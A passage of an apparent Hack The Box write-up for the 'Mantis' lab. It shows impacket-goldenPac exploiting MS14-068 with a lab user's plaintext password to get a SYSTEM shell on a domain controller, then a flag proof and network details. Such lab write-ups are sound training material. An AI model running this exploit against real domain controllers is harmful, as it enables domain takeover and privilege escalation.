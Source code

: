 With impacket's goldenpac tool I supply james credentials and gain system access

```
┌──[Sun Nov  6 08:13:07 PM CST 2022]-[wlan0:192.168.1.153 tun0:10.10.16.2]-[TheScriptKid]-[/usr/share/windows-kernel-exploits/MS14-068/pykek]
└──# impacket-goldenPac htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local -w /tmp/krb5cc_0             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file xCmOVFBQ.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service Llrq on mantis.htb.local.....
[*] Starting service Llrq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## User Proof

```
C:\Users\james\Desktop>hostname && whoami && type user.txt && ipconfig /all
mantis
nt authority\system
96f7c833a5c34d01f16b7bd18339a748

Windows IP Configuration

   Host Name . . . . . . . . . . . . : mantis
   Primary Dns Suffix  . . . . . . . : htb.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb.local
                                       .htb

Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #3
   Physical Address. . . . . . . . . : 00-50-56-B9-EC-F6
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::7857:89df:b5b7:7226(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::7857:89df:b5b7:7226%18(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.129.14.169(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Sunday, November 06, 2022 8:55:16 PM
   Lease Expires . . . . . . . . . . : Sunday, November 06, 2022 11:25:15 PM
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%18
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

```